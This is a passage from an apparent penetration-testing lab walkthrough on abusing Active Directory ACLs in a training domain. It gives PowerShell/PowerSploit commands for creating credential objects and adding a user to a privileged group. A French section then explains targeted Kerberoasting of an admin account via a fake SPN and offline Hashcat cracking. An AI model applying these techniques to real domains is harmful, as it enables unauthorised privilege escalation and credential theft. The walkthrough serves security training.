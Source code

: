 We can see that the command completed successfully, changing the password for the target user while using the credentials we specified for the `wley` user that we control. Next, we need to perform a similar process to authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

<mark style="color:green;">**Creating a SecureString Object using damundsen**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
{% endcode %}

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group. We can first confirm that our user is not a member of the target group. This could also be done from a Linux host using the `pth-toolkit`.

<mark style="color:green;">**Adding damundsen to the Help Desk Level 1 Group**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```
{% endcode %}

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
{% endcode %}

A quick check shows that our addition to the group was successful.

<mark style="color:green;">**Confirming damundsen was Added to the Group**</mark>

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

Nous avons obtenu des droits sur le compte **adunn** grâce à notre appartenance à un nouveau groupe. Supposons que notre client nous autorise à changer le mot de passe de **damundsen**, mais que **adunn**, un compte administrateur, ne puisse pas être modifié directement. Comme nous avons le droit **GenericAll** sur **adunn**, nous pouvons aller plus loin et lancer une attaque **Kerberoasting ciblée**. Pour cela, nous modifions l’attribut **servicePrincipalName (SPN)** du compte **adunn** afin de créer un **faux SPN**. Ensuite, nous demandons un **ticket Kerberos (TGS)** pour ce SPN, ce qui nous permet de récupérer un **hash** chiffré que nous tenterons de **craquer avec Hashcat** hors ligne. Pour réussir, nous devons être authentifiés comme membre du groupe **Information Technology**. Comme nous avons ajouté **damundsen** au groupe **Help Desk Level 1**, nous avons hérité des droits nécessaires via l'**appartenance imbriquée aux groupes**. Nous pouvons alors utiliser **Set-DomainObject** pour modifier l’attribut SPN ou **targetedKerberoast** depuis un système Linux, qui automatisera l’attaque en créant un SPN temporaire, récupérant le hash, puis supprimant le SPN.

<mark style="color:green;">**Creating a Fake SPN**</mark>
